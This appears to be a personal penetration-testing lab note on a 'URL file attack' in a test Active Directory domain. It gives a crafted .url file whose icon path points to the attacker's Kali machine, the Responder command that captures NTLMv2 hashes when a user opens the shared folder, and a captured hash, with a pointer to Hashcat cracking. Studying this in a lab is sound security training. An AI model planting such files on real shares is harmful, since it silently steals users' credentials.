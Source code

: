 **A URL file attack captures account hashes via a user accessing a folder that contains a specially crafted file that forces the user to request an icon off the attackers machine. The resource does not exist though. The act of initiating a connection to the attackers machine is how the hash is captured. Also note that the user does not need to open the file, nor is their any indication that anything has happened behind the scenes. They just need to open the folder that the file is located in which makes this a perfect for shared folders. **
https://swepstopia.com/url-file-attack/
In Windows 10 VM, create notepad file:
```batch
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\$KALI\%USERNAME%.icon
IconIndex=1
```
Save file as "@test.url" in:
`\\Xandar.MARVEL.local\hackme`
![[Pasted image 20211230211115.png | 600]]
[[1_Responder]]
```bash
sudo responder -I eth0 -v
```
Whatever user opens the folder is the hash we will capture in responder. Note the NTLMv2 hash.
Now go to Windows VM, and access the hackme share.
Win+R
```batch
\\Xandar.MARVEL.local\hackme
```
![[Pasted image 20211230211914.png]]
`groot::MARVEL:8b5fbb978d112491:18D9D8D8024A56674DD599A9BB864E87:010100000000000080E56134C3FDD701DDD68E450296A7100000000002000800540039005`
![[Hashcat#NetNTLMv2]]
![[Pasted image 20211230212633.png|4000]]